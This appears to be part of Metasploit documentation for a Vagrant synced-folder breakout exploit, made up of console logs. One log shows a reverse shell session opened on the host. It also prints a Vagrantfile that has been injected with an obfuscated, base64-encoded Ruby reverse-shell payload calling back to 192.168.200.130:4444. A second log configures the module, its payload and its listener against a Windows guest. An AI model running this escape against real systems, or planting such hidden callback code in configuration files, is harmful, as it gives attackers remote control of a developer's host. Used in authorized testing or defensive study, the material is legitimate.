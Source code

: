 ```
[*] Started reverse TCP handler on 192.168.200.130:4444 
msf exploit(multi/handler) > [*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.204:44242) at 2022-10-16 05:46:32 -0400

msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),138(libvirt)
pwd
/home/user/vagrant/vagrant_getting_started
tail -n 13 Vagrantfile

code = %(cmVxdWlyZSAnc29ja2V0JztjPVRDUFNvY2tldC5uZXcoIjE5Mi4xNjguMjAwLjEzMCIsIDQ0NDQpOyRzdGRpbi5yZW9wZW4oYyk7JHN0ZG91dC5yZW9wZW4oYyk7JHN0ZGVyci5yZW9wZW4oYyk7JHN0ZGluLmVhY2hfbGluZXt8bHxsPWwuc3RyaXA7bmV4dCBpZiBsLmxlbmd0aD09MDsoSU8ucG9wZW4obCwicmIiKXt8ZmR8IGZkLmVhY2hfbGluZSB7fG98IGMucHV0cyhvLnN0cmlwKSB9fSkgcmVzY3VlIG5pbCB9).unpack(%(m0)).first
if RUBY_PLATFORM =~ /mswin|mingw|win32/
inp = IO.popen(%(ruby), %(wb)) rescue nil
if inp
inp.write(code)
inp.close
end
else
if ! Process.fork()
eval(code) rescue nil
end
end
```

### StefanScherer/windows_2019 guest virtual machine in Vagrant 2.3.1 with VirtualBox 6.1 running on Ubuntu 22.04.1

```
msf > sessions -i 1 -C sysinfo
[*] Running 'sysinfo' on meterpreter session 1 (10.0.2.15)
Computer        : VAGRANT
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
msf > sessions -i 1 -C getuid
[*] Running 'getuid' on meterpreter session 1 (10.0.2.15)
Server username: VAGRANT\test
msf > use exploit/multi/local/vagrant_synced_folder_vagrantfile_breakout
[*] Using configured payload ruby/shell_reverse_tcp
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set session 1
session => 1
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > check

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] The service is running, but could not be validated. Could not verify if /vagrant/Vagrantfile is writable.
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set payload ruby/shell_reverse_tcp
payload => ruby/shell_reverse_tcp
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lport 4444
```